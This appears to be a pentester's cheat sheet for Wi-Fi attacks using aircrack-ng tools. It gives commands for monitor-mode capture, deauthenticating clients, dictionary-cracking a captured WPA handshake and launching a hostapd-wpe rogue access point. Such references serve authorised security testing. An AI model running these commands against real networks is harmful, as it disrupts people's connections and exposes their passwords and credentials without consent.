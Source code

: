 # wifi

#plateform/linux #target/remote #cat/RECON #cat/ATTACK #tag/powershell 

## airmon - start interface
```
airmon-ng start wlan0
```

## airodump - listen to everything
```
airodump-ng wlan0mon
```

## airodump - listen to specific SSID
```
airodump-ng --bssid <mac_address> -c <channel> -w <output_file> wlan0mon
```

## aireplay - deauth clients
```
aireplay-ng --deauth 5 -c <client_mac_address> -a <mac_address> wlan0mon
```

## aircrack - crack handshake for PSK
```
aircrack-ng -w <dictionary> <input_file>
```

## hostapd-wpe - launch fake AP
```
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```